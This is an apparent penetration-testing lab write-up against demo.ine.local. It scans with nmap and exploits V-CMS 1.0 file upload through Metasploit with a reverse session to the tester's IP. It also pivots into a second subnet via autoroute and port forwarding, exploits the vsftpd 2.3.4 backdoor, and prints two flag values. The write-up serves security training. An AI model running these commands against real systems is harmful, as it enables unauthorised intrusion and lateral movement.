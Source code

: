 # BLACK BOX TESTING 1

## GIVEN   
**MY IP ADDRESS**: 192.101.56.2

## PROCEDURE

### RECON

```
nmap -sV --script vuln -p- demo.ine.local
```

![1.1](./imgs/1.1.png)

**OPEN PORTS**:<br>
80 http (nginx 1.14.0 Web Server),<br>
3306 mysql,<br>

Port 80 is hosting V-CMS v1.0<br>

Google "vcms 1.0 vuln"<br>

![1.2](./imgs/1.2.png)

**VULN**: V-CMS PHP File Upload and Execute

### EXPLOIT

```
searchsploit vcms
msfconsole
search vcms
use exploit/linux/http/vcms_upload
set RHOSTS demo.ine.local
set TARGETURI /
set LHOST 192.101.56.2
exploit
```

![2.1](./imgs/2.1.png)

### GET FLAG 1

```
search -f *flag*
cat /root/flag.txt
```

![3.1](./imgs/3.1.png)

**FLAG 1**: 4f96a3e848d233d5af337c440e50fe3d

### PIVOT

```
shell
ifconfig
```

![4.1](./imgs/4.1.png)

Device connected to 2 networks

eth0: 192.101.56.3
**eth1**: 192.4.78.2

Add route to new network
-s IP/CIDR
```
run autoroute -s 192.4.78.0/24
background
route print
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.4.78.0/24
run
```

![4.2](./imgs/4.2.png)

**IP (PORTS)**:<br>
192.4.78.1 (22),<br>
192.4.78.2 (80, 3306),<br>
**192.4.78.3 (21, 22)**<br>

This will associate port 1234 on the hacked machine as port 21 on the new machine<br>
-l LISTEN_PORT<br>
-p TARGET_PORT<br>
-r TARGET_IP
```
sessions -i 1
portfwd add -l 1234 -p 21 -r 192.4.78.3
background
nmap -A --script vuln -p 1234 localhost
```

![4.3](./imgs/4.3.png)

**PORT 21**: vsftpd 2.0.8

## EXPLOIT

```
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.4.78.3
exploit #Didn't work the first time
exploit
find / -iname *flag*
```

![5.1](./imgs/5.1.png)

**FLAG 2**: 58c7c29a8ab5e7c4c06256b954947f9a
